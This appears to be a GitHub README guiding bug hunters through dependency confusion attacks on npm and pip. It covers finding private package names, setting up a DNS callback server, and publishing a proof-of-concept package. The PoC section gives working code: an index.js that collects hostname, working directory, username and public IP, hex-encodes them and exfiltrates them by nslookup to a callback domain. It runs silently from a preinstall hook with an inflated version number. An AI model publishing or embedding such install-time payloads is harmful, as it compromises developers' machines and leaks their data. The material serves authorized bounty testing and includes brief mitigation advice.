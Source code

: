 # All About Dependency Confusion Attack, (Detecting, Finding, Mitigating)

## Table of content:

- [About dependency confusion attack](#about-dependency-confusion-attack)
- [How npm works and understanding package system, version, scope packages, etc.](#how-npm-and-similar-package-system-work-and-understanding-its-structure-and-more)
- [Detecting private package](#detect-private-pip-and-npm-packages)
- [Automation with bash](#automating-with-bash-to-find-private-packages)
- [Manual Hunting](#manual-hunting-to-find-more-packages)
- [Setting up bind9 DNS server](#setting-up-bind9-dns-server)
- [Uploading POC](#uploading-poc)
- [Mitigation](#mitigation)
- [Bounty Transparency](#bounty-transparency)



## About dependency confusion attack:
When you put `pip install -r requirements.txt` in your terminal did you check the package that you currently installing is not in the public repository? Or did someone put a backdoor on this package that you install blindly? How do you trust pypi? Is there anything that can harm your machine which is protected by firewall? 
Well, you might wonder how you can easily get hacked for running this command in your terminal! I'm not going to explain how this occurs, there is a great article about [Dependency Confusion](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) by [alex birsan](https://twitter.com/alxbrsn)! But I can't resist giving you a simple explanation about the dependency confusion attack! 
Suppose you had a project called `A` which completely depends on react packages as you might hear of some third-party react component packages that are currently used by lots of companies for their development process, (for example `react-router`) which means your current project heavily depends on some third-party module! Now Imagine you got a new job at this company and your previous colleague didn’t tell you about his project but did give you a file called `package.json` with a bunch of js files and you know what to do with that just simple command `npm -i` and You're good to go. But did you know that there might be some private packages that your senior developer didn’t allow you to disclose in public? So what will happen when you put `npm -i` in your terminal if this package is claimed by a malicious actor? Yeah, that's the simple explanation of dependency confusion attack!


## How npm and similar package system work and understanding its structure and more:

npm stands for node package manager which is used for storing your project dependency as public. But npm also allows you to install packages from your local package manager which is private, which means these packages are restricted from public users, just an internal user or specific traffic can install these packages for development purposes! And also these packages didn’t exist in public npm [registry](https://registry.npmjs.com), this works fine until you accidentally forget to mention the install path in your cli file.
but in pip, these are completely different as pip checks for higher versions if put the `--extra-index` flag for your installation, like if you put `--extra-index` when you install pip packages through your terminal eg:`pip install -r requirements.txt --extra-index-url` then pip will first check which repository contains a higher version of this package. if pip sees that your local registry contains a higher version then pip will install this instead of a public one. Now imagine you accidentally leak your private pip package name Through github repo and attacker claim these packages and includes 2000.0.0 as the package version but in your local registry this package version is like 2.0.1 what will happen? well, pip priorities a higher version if you include the `--extra-index-url` flag so pip will install this package from a public instead of a private repository, as pip sees this version is higher than your local version. You can read how pip works in this blog [post](https://realpython.com/what-is-pip/), also if you want to read how the version work in npm please read this [article](https://stackoverflow.com/questions/22343224/whats-the-difference-between-tilde-and-caret-in-package-json).as my research is ongoing on other package system so I can't tell you enough for this! I will add them here.


## Detect private pip and npm packages:

This is so easy for npm normal packages, just visit `https://npmjs.com/package/YOUR-PACKAGE-NAME-HERE` and for scope packages, let me tell you what is exactly it means 'if you have seen an npm package name like this `@test/example-packages` that means every package are started with `@` and divided by `\` the first part of `\` is scopes name and the second part is actual packages name so if you found this type of package name in your finding, you have to check whether this scope name is claimed in a public repository or not, for that visit this `https://npmjs.com/org/SCOPE-NAMES-HERE` if this shows you 404 that's means this is unclaimed scope name! So for uploading POC packages on npmjs, you have to create an org name first then update this name to your package.json file like this `@org/package-name-here`, and for pip just [visit](https://pypi.org/)



## Automating with bash to find private packages:

Download this `npm-automation.sh` file and run this command in your terminal `bash automate-bash.sh <target domain>` make sure you have installed [tomnomnom's waybackurls](https://github.com/tomnomnom/waybackurls) and [hacker_'s gau](https://github.com/lc/gau) in your machine.



## Manual hunting to find more packages:

- Using Github:
in GitHub you can visit every repo to see if there is any of these filenames exist, like for npm `package.json`,`yarn.lock`,`package-lock.json`,`yarn-error.log`. For pip `requirements.txt`, `requirement-dev.txt`,`requirement-prod.txt`. 
- Using Devtools:
open your firefox browser and visit your target domain/subdomain ==> right click ==> inspect ==> go to `Debugger` ==> try to find `Webpack` directory (if your target used webpack, otherwise you may not see anything) ==> in `Webpack` directory you will see `node_modules` folder and every subfolder name of `node_modules` folder is actually an npm package.
- JS file:
js file is so boring to read, but if you already know what an npm package name looks like, you may able to spot them within js file. (this needs practice)



## Setting-up bind9 DNS server:
follow these videos and repo
[Github repo](https://github.com/JuxhinDB/OOB-Server)
[DigitalOcean + Namecheap](https://www.youtube.com/watch?v=iMSqT9MZbQs),
[AWS + Godaddy](https://www.youtube.com/watch?v=p8wbebEgtDk),


## Uploading POC:
please follow this [video](https://youtu.be/GJSvEAJeqko) on my youtube channel.

in this folder `src/poc`, edit `index.js` file. replace `niroborg-npm-com-test` with your target package name. also `bind9-or-callback-server.com` to your callback DNS server.
```javascript
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;echo 'niroborg-npm-com-test';curl https://ifconfig.me;) && echo $a | xxd -p | head | while read ut;do nslookup $a.bind9-or-callback-server.com;done" , (error, data, getter) => {
	if(error){
		console.log("error",error.message);
		return;
	}
	if(getter){
		console.log(data);
		return;
	}
	console.log(data);
	
});
```
and in `package.json` file, replace `test-npm-com-test` with your target package name. then define the version name. it is recommended that you should upload multiple package versions when you upload the npm package because npm uses a special version system. [read more](https://stackoverflow.com/questions/22343224/whats-the-difference-between-tilde-and-caret-in-package-json)
```json
{
  "name": "test-npm-com-test",
  "version": "1.999.0",
  "description": "",
  "main": "main.js",
  "scripts": {
    "preinstall": "node index.js > /dev/null 2>&1",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "lexi2",
  "license": "ISC",
  "dependencies": {
    "lodash": "^4.17.21"
  }
}

```

## Mitigation:
Scan your project dependency with [confused](https://github.com/visma-prodsec/confused) by [@visma-prodsec](https://github.com/visma-prodsec)

(I have my own scanner just for npm, and I think [confused](https://github.com/visma-prodsec/confused) is really cool as they add a bunch of other package managers for scanning)
## Bounty Transparency:
- $2000 from Shein (goes public)
- $2000 from an outside bug bounty program (closed)
- $1500 from Bugcrowd private program (closed)
- $1250 from Bugcrowd private program (ongoing)
- $1000 from an outside bug bounty(self-hosted)
- $1000 from Comcast Cable. (closed)
- $700 from an outside bug bounty program(self-hosted)
- $500 from an outside bug bounty program(self-hosted)
- $250 from Bugcrowd private program (closed)
## Shoutouts:
- [@alxbrsn](https://twitter.com/alxbrsn) for his amazing [research](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) , without his research, nothing would have been possible.
- [@Stok](https://twitter.com/stokfredrik) for his amazing [video](https://www.youtube.com/watch?v=p8wbebEgtDk) about setting-up bind9 dns server (using GoDaddy + aws)
- [@juxhindb](https://twitter.com/juxhindb) for his amazing github [repo](https://github.com/JuxhinDB/OOB-Server)
- [@nigamelastic](https://twitter.com/nigamelastic) for his amazing [video](https://www.youtube.com/watch?v=iMSqT9MZbQs) about setting-up bind9 dns server(using Namecheap + digitalocean)
- [@tomnomnom](https://twitter.com/tomnomnom) for his powerful archive URL fetching tool [waybackurls](github.com/tomnomnom/waybackurls)
- [@hacker_](https://twitter.com/hacker_) for his powerful archive URL fetching tool [gau](github.com/lc/gau)
- [@visma-prodsec](https://github.com/visma-prodsec) for their powerfull dependency scanner [confused](https://github.com/visma-prodsec/confused)

## Useful?

<a href="https://buymeacoff.ee/x1337loser" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

<a href="https://archive.org/donate">Donate to the InternetArchive</a>

